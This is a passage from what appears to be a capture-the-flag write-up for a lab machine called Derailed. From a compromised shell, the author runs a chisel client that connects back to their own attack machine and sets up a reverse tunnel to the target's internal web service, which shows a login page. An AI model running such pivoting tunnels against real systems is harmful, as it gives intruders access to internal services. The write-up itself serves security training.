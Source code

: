 I’ll start the server on my VM, and connect back to it:

    
    
    openmediavault-webgui@derailed:/dev/shm$ ./chisel_1.8.1_linux_amd64 client 10.10.14.6:8000 R:8888:localhost:80
    

There’s a connection at the server:

    
    
    oxdf@hacky$ /opt/chisel/chisel_1.8.1_linux_amd64 server -p 8000 --reverse
    2023/07/20 13:38:55 server: Reverse tunnelling enabled
    2023/07/20 13:38:55 server: Fingerprint n5R2RuOcas6QYwllUlfejsAp9f8gSraEP+btjjdE8dM=
    2023/07/20 13:38:55 server: Listening on http://0.0.0.0:8000
    2023/07/20 13:39:21 server: session#1: tun: proxy#R:8888=>localhost:80: Listening
    

Now I have a tunnel from 8888 on my host to 80 on Derailed.

#### Get Logged In

The page presents a login:

![image-20230720134302409](../img/image-20230720134302409.png)
